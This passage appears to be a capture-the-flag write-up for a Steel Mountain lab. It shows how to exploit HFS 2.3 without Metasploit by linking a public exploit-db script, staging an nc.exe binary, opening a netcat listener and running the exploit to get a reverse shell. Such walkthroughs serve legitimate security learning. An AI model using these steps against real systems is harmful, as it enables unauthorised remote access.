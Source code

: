 ![Alt text](../Screenshots/Steel_Mountain/root_flag.png)

### Exploitation without Metasploit

We need to do a google search about the exploit of hfs version 2.3, and it takes us to exploit-db, the link is given below.

[Exploit](https://www.exploit-db.com/exploits/39161)

Download the exploit and run it. Remember to run it via python2, otherwise modify the code according to python3 syntax.

Before running, we need to have some setup that is required by the exploit.
1. Download the netcat exe file from internet
2. run the netcat server on attacker's machine to recieve the connectionn from the target.

To Download netcat exe, use the following link:
[netcat exe](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)
You need to change the name of binary because our payload is requests nc.exe instead of ncat.exe. Use followind command to change the name:

```bash
mv ncat.exe nc.exe
```

Now, run the netcat server using following command:
```bash
nc -lvnp 4443
```

Now, change the `ip_addr` to attacker's machine ip and `local_port` to attacker's machine where netcat server is running. In my case it is 4443.

Now, run the exploit using following command:

```bash
python2 exploit.py target_ip 8080
```
![Alt text](../Screenshots/Steel_Mountain/shell_without_metasploit.png)
